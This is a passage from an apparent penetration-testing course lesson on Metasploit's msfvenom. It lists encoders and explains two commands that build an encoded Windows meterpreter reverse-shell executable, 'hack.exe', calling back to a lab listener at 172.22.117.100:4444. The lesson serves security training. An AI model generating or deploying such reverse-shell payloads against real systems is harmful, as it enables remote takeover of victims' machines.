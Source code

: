 4. List `msfvenom`'s encoders. The encoders are various algorithms and encoding schemes that Metasploit uses to re-encode payloads.

     - Run the following command: `msfvenom -l encoders`

     - The output lists the encoders, as the image shows:

    ![A screenshot depicts the results of the command.](Images/MSV_3.png)

    - Without `msfvenom`, we would have to re-encode a payload by piping the `msfpayload` command through the `msfencode` command. In a single command, `msfvenom` does both actions and more.

#### Msfvenom Command Structure

Now, let's cover the basics of the `msfvenom` custom payload command options.

- Note the following command:

   - `msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai -f exe -o /tmp/hack.exe LHOST=172.22.117.100 LPORT=4444`

   - Syntax breakdown:

      - `msfvenom`: Launches the `msfvenom` program
      - `-p`: Indicates payload 
      - `windows/meterpreter/reverse_tcp`: The Metasploit command module
      - `-a x86`: Designates the architecture we will use; the default is `x86`
      - `-e x86/shikata_ga_nai`: Designates the encoder we will use
      - `-f exe`: Indicates the file type to create (in this case, `.exe`)
      - `-o /tmp/hack.exe`: Creates an output file, specifying the file name (`hack.exe`) and location (inside the `/tmp` directory)

- Next, refer to the command that we used in the preceding lesson, and try to break it down: 

    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.22.117.100 LPORT=4444 -f exe R > hack.exe`

      - `msfvenom`: Launches the `msfvenom` program
      - `-p`: Indicates payload
      - `windows/meterpreter/reverse_tcp`: The Metasploit command module
      - `-f exe`: Creates a `.exe` file type

In the activity that follows, you'll build a custom command in an exploitation attack.

### 03. Msfvenom Payloads
